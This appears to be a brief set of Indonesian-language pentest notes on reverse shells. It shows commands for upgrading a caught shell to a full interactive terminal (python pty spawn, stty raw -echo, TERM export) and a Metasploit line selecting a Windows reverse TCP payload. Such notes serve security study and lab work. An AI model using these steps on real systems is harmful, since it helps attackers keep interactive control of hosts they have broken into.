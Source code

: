 # Reverse Shell Basic
#offensive #reverseshell #exploitation

## Membuat Reverse Shell Menjadi Responsif
Dengan ini, kamu dapat menggunakan arrow key pada keyboard.

Gunakan Bash pada attacker machine.
```sh
# di dalam target machine
python3 -c "import pty; pty.spawn('/bin/bash')"
(Ctrl+Z)
(Enter)

# di dalam attacker machine
stty raw -echo
fg (keystroke tidak terlihat, trust yourself dan klik enter)

# di dalam target machine
export TERM=xterm
```

## Shell dari Metasploit
```sh
set payload windows/x64/shell/reverse_tcp
```